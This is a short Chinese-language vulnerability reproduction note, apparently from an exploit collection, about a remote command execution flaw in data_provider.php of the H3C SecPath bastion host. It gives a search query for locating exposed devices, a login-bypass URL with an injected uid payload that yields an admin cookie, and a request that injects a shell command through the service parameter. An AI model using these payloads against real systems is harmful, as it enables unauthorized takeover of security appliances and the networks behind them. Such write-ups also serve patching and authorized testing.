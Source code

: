 # 

# H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

```
H3C SecParh堡垒机
```

## 网络测绘

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下

![1](./images/202202091828935.png)



先通过任意用户登录获取Cookie

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![2](./images/202202091828626.png)



```plain
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```



![3](./images/202202091828206.png)
